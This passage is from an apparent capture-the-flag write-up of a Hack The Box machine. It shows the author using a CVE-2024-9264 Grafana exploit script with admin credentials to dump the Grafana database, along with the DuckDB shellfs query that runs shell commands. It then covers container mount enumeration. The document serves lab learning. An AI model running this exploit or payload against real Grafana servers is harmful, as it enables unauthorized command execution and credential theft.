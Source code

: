 ## Lateral Movement Part 1 (Escape Docker)
### What's Going On
- So I'm very clearly inside a docker container. This is most evident by the bash prompt, which is `root@[hex]`. Firstly, this exploit definitely won't give root, even on an easy machine. Secondly, the hex is a dead giveaway.
- There's a `grafana` user, that's neat. Luckily I'm able to run and do anything within the container itself, so that's really good.
- There's two general ideas I'm formulating. They may or may not be good, I've never really done this before.
	1. Find a shared directory
	2. Find reused credentials
- This is really all I can go for.
### Grafana Password Dump
- There's one service running on this bad boy: Grafana. It stands to reason that there's usernames and passwords somewhere in here. If I can crack a hash, then I can attempt to use it for SSH.
- The database is located in `/var/lib/grafana/`. This shell isn't particularly fancy, so we can just use the same exploit used to generate the shell, but with a command printing the contents of the database. The output of that can then be redirected to a file, and...
```a
[lkotlus@work] [.../Nerd/htb/planning/CVE-2024-9264] [ main]  
(bash)> python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "cat /var/lib/  
grafana/grafana.db" http://grafana.planning.htb/ > grafana.db  
[+] Logged in as admin:0D5oT70Fq13EvB5r  
  
[+] Executing command: cat /var/lib/grafana/grafana.db  
[+] Successfully ran duckdb query:  
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM    
read_csv('cat /var/lib/grafana/grafana.db >/tmp/grafana_cmd_output 2>&1 |'):  
  
[+] Successfully ran duckdb query:  
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):  
  
[lkotlus@work] [.../Nerd/htb/planning/CVE-2024-9264] [ main]  
(bash)> sqlite3 grafana.db    
SQLite version 3.50.3 2025-07-17 13:25:10  
Enter ".help" for usage hints.  
sqlite> .tables  
alert                        library_element_connection    
alert_configuration          login_attempt
```
- Voila! Unfortunately the only user available is the `admin` user.
### File Shares and Mounts
- Let's see if `/proc/mounts` has anything interesting:
```a
root@7ce659d667d7:~# cat /proc/mounts  
cat /proc/mounts  
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/3X4OJGQ2VFLUPGUBU2QSGDA67Q:/var/lib/docker/overlay2/l/WKSUASLWRLDJ5Z3HUM3UWOCERN:/var/lib/docker/overlay2/l/FNIAPVIFHONGK5UUW  
ODDB3HIEZ:/var/lib/docker/overlay2/l/TQFT6TIJRPQ7JPRYGS3IZSMHZD:/var/lib/docker/overlay2/l/ZNRJYR4L6MSXWYNEVHMA7SOK4K:/var/lib/docker/overlay2/l/7VFG4MJXMKBY4JRM3RMBIKDDGI:/var/lib/docker/ove  
rlay2/l/QB5XD7D4U5DQ22OYSUX6QDX24V:/var/lib/docker/overlay2/l/QVCFBNTZYDNPP6DXABR4R4N2K6:/var/lib/docker/overlay2/l/SYGRYVYZM5LKLX5UBPKUWAV7ZF:/var/lib/docker/overlay2/l/AKAAOHAM5BHB3XSZYHXJJ  
7L5CZ:/var/lib/docker/overlay2/l/FMIYHYMPSESM3E3C6JPZWCBKWY:/var/lib/docker/overlay2/l/OAC6WUQ3B4JTAEKGVTRLUU4D2N:/var/lib/docker/overlay2/l/BBMA3AJS2WGZ55ID5AHIUVNGRU,upperdir=/var/lib/docke  
r/overlay2/dd276dc3c44059747fa6dbb0289cda02c4f20798df65f186eb63ef1f46bab04f/diff,workdir=/var/lib/docker/overlay2/dd276dc3c44059747fa6dbb0289cda02c4f20798df65f186eb63ef1f46bab04f/work,nouserx  
attr 0 0  
proc /proc proc rw,nosuid,nodev,noexec,relatime 0 0  
tmpfs /dev tmpfs rw,nosuid,size=65536k,mode=755,inode64 0 0  
devpts /dev/pts devpts rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666 0 0  
sysfs /sys sysfs ro,nosuid,nodev,noexec,relatime 0 0  
```